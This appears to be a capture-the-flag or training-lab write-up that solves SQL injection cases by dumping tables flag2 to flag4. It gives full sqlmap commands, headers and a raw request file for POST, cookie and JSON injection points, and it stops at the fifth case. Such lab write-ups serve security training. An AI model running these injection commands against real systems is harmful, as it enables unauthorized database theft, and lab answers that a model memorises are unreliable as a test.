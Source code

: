 1.  What's the contents of table flag2? (Case #2)

- vulnerable in Post data `id`

```sh
❯ sqlmap 'http://167.99.89.94:30884/case2.php'   -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9'   -H 'Accept-Language: en-US,en;q=0.9'   -H 'Cache-Control: max-age=0'   -H 'Connection: keep-alive'   -H 'Content-Type: application/x-www-form-urlencoded'   -H 'Origin: http://167.99.89.94:30884'   -H 'Referer: http://167.99.89.94:30884/case2.php'   -H 'Upgrade-Insecure-Requests: 1'   -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36'   --data-raw 'id=1*'   --compressed --tables
```
- found flag2 and user table

```sh
❯ sqlmap ... -T flag2 --dump
```

---

2. What's the contents of table flag3? (Case #3)

- vulnerable in cookie value `id`

```sh
❯ sqlmap 'http://167.99.89.94:30884/case3.php'   -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9'   -H 'Accept-Language: en-US,en;q=0.9'   -H 'Connection: keep-alive'   -H 'Cookie: id=1*'   -H 'Referer: http://167.99.89.94:30884/case3.php'   -H 'Upgrade-Insecure-Requests: 1'   -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36'   --compressed --tables
```
- found flag3 and user table

```sh
❯ sqlmap ...  -T flag3 --dump
```
---

3. What's the contents of table flag4? (Case #4)

- vulnerable in JSON data {"id": 1}
- write case4.txt file as below
```
POST /case4.php HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: keep-alive
Content-Length: 8
Content-Type: application/json
Host: 167.99.89.94:32587
Origin: http://167.99.89.94:32587
Referer: http://167.99.89.94:32587/case4.php
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36

{"id":1*}
```

```sh
sqlmap -r case4.txt --tables
sqlmap -r case4.txt -T flag4 --dump
```

---

4. What's the contents of table flag5? (Case #5)

